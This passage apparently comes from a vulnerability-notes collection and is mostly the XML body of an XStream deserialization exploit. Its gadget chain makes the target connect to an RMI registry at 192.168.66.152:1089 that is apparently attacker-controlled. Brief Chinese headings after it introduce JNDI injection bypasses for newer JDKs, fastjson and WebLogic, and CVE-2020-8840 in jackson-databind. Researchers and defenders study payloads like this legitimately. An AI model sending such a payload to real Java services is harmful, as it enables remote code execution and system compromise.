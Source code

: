 ```
        </javax.naming.ldap.Rdn_-RdnEntry>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.xml.internal.ws.api.message.Packet' serialization='custom'>
                <message class='com.sun.xml.internal.ws.message.saaj.SAAJMessage'>
                    <parsedMessage>true</parsedMessage>
                    <soapVersion>SOAP_11</soapVersion>
                    <bodyParts/>
                    <sm class='com.sun.xml.internal.messaging.saaj.soap.ver1_1.Message1_1Impl'>
                        <attachmentsInitialized>false</attachmentsInitialized>
                        <nullIter class='com.sun.org.apache.xml.internal.security.keys.storage.implementations.KeyStoreResolver$KeyStoreIterator'>
                            <aliases class='com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl'>
                                <candidates class='com.sun.jndi.rmi.registry.BindingEnumeration'>
                                    <names>
                                        <string>aa</string>
                                        <string>aa</string>
                                    </names>
                                    <ctx>
                                        <environment/>
                                        <registry class='sun.rmi.registry.RegistryImpl_Stub' serialization='custom'>
                                            <java.rmi.server.RemoteObject>
                                                <string>UnicastRef</string>
                                                <string>192.168.66.152</string>
                                                <int>1089</int>
                                                <long>0</long>
                                                <int>0</int>
                                                <long>0</long>
                                                <short>0</short>
                                                <boolean>false</boolean>
                                            </java.rmi.server.RemoteObject>
                                        </registry>
                                        <host>192.168.66.152</host>
                                        <port>1089</port>
                                    </ctx>
                                </candidates>
                            </aliases>
                        </nullIter>
                    </sm>
                </message>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
    </java.util.PriorityQueue>
</java.util.PriorityQueue>
```  
### JDK高版本绕过通用与fastjson、weblogic的JNDI注入  
  
1、代码执行 (CVE-2020-8840)  
  
2.0.0 <= FasterXML jackson-databind Version <= 2.9.10.2  
  